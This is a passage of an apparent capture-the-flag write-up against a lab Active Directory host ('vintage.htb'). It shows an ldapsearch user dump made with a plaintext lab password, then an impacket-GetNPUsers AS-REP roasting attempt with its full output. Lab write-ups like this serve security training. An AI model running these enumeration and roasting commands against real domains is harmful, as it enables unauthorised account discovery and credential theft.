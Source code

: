 ```bash
❯ ldapsearch -x -H ldap://10.10.11.45 -D "P.Rosa@vintage.htb" -w "Rosaisbest123" -b "DC=vintage,DC=htb" "(objectClass=user)" sAMAccountName | grep "sAMAccountName:" | cut -d " " -f 2 > usernames.txt
❯ cat usernames.txt
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: usernames.txt
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ Administrator
   2   │ Guest
   3   │ DC01$
   4   │ krbtgt
   5   │ gMSA01$
   6   │ FS01$
   7   │ M.Rossi
   8   │ R.Verdi
   9   │ L.Bianchi
  10   │ G.Viola
  11   │ C.Neri
  12   │ P.Rosa
  13   │ svc_sql
  14   │ svc_ldap
  15   │ svc_ark
  16   │ C.Neri_adm
  17   │ L.Bianchi_adm
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

We then use `impacket-GetNPUsers` to list users that do not require Kerberos realm authentication (UF_DONT_REQUIRE_PREAUTH)

```bash
impacket-GetNPUsers -dc-ip 10.10.11.45 -request -usersfile usernames.txt vintage.htb/
```

```bash
❯ impacket-GetNPUsers -dc-ip 10.10.11.45 -request -usersfile usernames.txt vintage.htb/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User gMSA01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User FS01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User M.Rossi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User R.Verdi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User G.Viola doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User P.Rosa doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User svc_ldap doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc_ark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
```
